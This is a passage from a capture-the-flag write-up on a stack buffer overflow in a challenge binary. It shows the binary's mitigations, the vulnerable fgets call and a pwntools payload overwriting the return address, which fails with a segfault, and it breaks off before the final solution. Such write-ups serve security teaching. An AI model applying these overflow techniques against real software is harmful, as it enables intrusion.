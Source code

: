 These functions change the global variables listed above.

### Mitigations

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Solution

There is a buffer overflow in `vuln`:

```c
void vuln() {
    char input[100];

    puts("uwu owo rawrxd");
    fgets(input, 0x100, stdin);
}
```

We have a buffer of 100 bytes, but we are reading 0x100 (256) bytes.

There is no canary and PIE is disabled, so we can control the return address, similar to the
"wetuwn-addwess" challenge.

However, if we try jumping to the `win` function, we get the following message:

```py
>>> from pwn import *
>>> exe = ELF('wetuwn-owiented-pwogwamming')
[*] '/home/greenavocado/Documents/CTF/ubcmaplectf2022/pwn/wetuwn-owiented-pwogwamming/wetuwn-owiented-pwogwamming'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
>>> payload = flat({ 0x78: p64(exe.sym['win']) })
>>> io = exe.process()
[x] Starting local process '/home/greenavocado/Documents/CTF/ubcmaplectf2022/pwn/wetuwn-owiented-pwogwamming/wetuwn-owiented-pwogwamming'
[+] Starting local process '/home/greenavocado/Documents/CTF/ubcmaplectf2022/pwn/wetuwn-owiented-pwogwamming/wetuwn-owiented-pwogwamming': pid 2182252
>>> io.sendline(payload)
>>> io.interactive()
[*] Switching to interactive mode
[*] Process '/home/greenavocado/Documents/CTF/ubcmaplectf2022/pwn/wetuwn-owiented-pwogwamming/wetuwn-owiented-pwogwamming' stopped with exit code -11 (SIGSEGV) (pid 2182252)
uwu owo rawrxd
oh nyo youw e-expwoit has faiwed *sweats*
[*] Got EOF while reading in interactive
```
